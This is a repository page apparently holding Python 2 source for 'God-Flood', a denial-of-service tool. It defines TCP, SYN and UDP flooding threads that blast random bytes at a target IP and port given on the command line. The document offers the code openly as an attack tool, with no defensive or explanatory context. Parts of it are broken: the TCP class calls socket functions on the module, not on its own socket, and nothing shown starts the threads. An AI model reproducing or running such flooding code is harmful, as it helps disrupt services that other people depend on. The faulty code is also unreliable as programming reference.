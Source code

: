# by-yoga
Yoga

#God-Flood(tcp, syn, udp) By LiGht 
import threading, sys, time, random, socket

if len(sys.argv) < 4:
    print "God-Flood By LiGhT"
    sys.exit("Usage: python "+sys.argv[0]+" <ip> <port> <size>")

ip = sys.argv[1]
port = int(sys.argv[2])
size = int(sys.argv[3])
packets = int(sys.argv[3])

class syn(threading.Thread):
    def __init__(self, ip, port, packets):
        self.ip = ip
        self.port = port
        self.packets = packets
        self.syn = socket.socket()
        threading.Thread.__init__(self)
    def run(self):
        for i in range(self.packets):
            try:
                self.syn.connect((self.ip, self.port))
            except:
                pass

class tcp(threading.Thread):
    def __init__(self, ip, port, size, packets):
        self.ip = ip
        self.port = port
        self.size = size
        self.packets = packets
        self.tcp = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        threading.Thread.__init__(self)
    def run(self):
        for i in range(self.packets):
            try:
                bytes = random._urandom(self.size)
                socket.connect(self.ip, self.port)
                socket.setblocking(0)
                socket.sendto(bytes,(self.ip, self.port))
            except:
                pass

class udp(threading.Thread):
    def __init__(self, ip, port, size, packets):
        self.ip = ip
        self.port = port
        self.size = size
        self.packets = packets
        self.udp = socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
        threading.Thread.__init__(self)
    def run(self):
        for i in range(self.packets):
            try:
                bytes = random._urandom(self.size)
                if self.port == 0:
                    self.port = random.randrange(1, 65535)
                self.udp.sendto(bytes,(self.ip, self.port))
            except:
                pass 
